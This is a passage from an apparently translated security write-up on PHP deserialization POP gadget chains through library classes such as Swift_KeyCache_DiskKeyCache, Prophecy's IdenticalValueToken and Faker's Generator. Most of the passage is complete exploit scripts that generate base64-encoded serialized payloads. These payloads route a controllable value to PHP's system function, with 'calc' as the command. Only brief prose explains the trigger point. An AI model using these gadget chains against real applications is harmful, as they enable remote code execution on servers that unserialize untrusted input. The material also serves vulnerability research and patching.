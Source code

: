 ```php
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new ObjectStateToken($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP chain utilization flow chart

![undefined](https://p0.ssl.qhimg.com/t01c318e6f5ac9a107c.png "undefined")

## POP Chain-11
The utilization chain of the starting point and end point is the same as the `POP chain-10`. Change the trigger point of `__toString()` and follow up on the `__toString()` method in `src/Prophecy/Argument/Token/IdenticalValueToken.php`. Here `$this->string`, `$this->util` and `$this->value` are all controllable.

![undefined](https://p3.ssl.qhimg.com/t0114475595f218992c.png "undefined")

### exp
```php
<?php
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
    use Faker\Generator;
    class IdenticalValueToken {
        private $string;
        private $value;
        private $util;
        public function __construct($payload) {
            $this->name = null;
            $this->util = new Generator();;
            $this->value = $payload;
        }
    }
}

namespace {
    use Prophecy\Argument\Token\IdenticalValueToken;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new IdenticalValueToken($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP chain utilization flow chart